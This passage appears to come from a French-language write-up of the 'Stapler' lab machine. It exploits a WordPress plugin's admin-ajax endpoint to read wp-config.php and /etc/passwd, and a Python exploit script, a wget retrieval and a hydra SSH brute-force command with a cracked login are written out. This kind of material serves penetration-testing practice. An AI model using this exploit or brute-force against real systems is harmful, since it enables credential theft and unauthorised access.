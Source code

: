 ```
randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()


```

\pagebreak


On a besoin de bypass la vérification du certificat SSL:
```python
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```

Le plus simple est de faire une requête dans le navigateur à
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=/etc/passwd](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=/etc/passwd). 
On va regarder dans [https://stapler:12380/blogblog/wp-content/uploads](https://stapler:12380/blogblog/wp-content/uploads)
et on télécharge le résultat. Lorsque que l'on cherche à récupérer des fichiers
 côté server, le fichier `/etc/passwd` est un bon test car sur tout système unix,
ce fichier possède les droits de lecture pour tous les users. De plus, cela nous
permet de connaitre les users afin de forcer une connexion SSH.

wget [https://stapler:12380/blogblog/wp-content/uploads/554398209.jpeg](https://stapler:12380/blogblog/wp-content/uploads/554398209.jpeg) --no-check-certificate

On a donc la liste des users:
```bash
peter:x:1000:1000:Peter,,,:/home/peter:/bin/zsh
...
elly:x:1029:1029::/home/elly:/bin/bash
```

## On récupère un shell

```
hydra -L users.txt stapler ssh -e nsr
[22][ssh] host: stapler   login: SHayslett   password: SHayslett
```
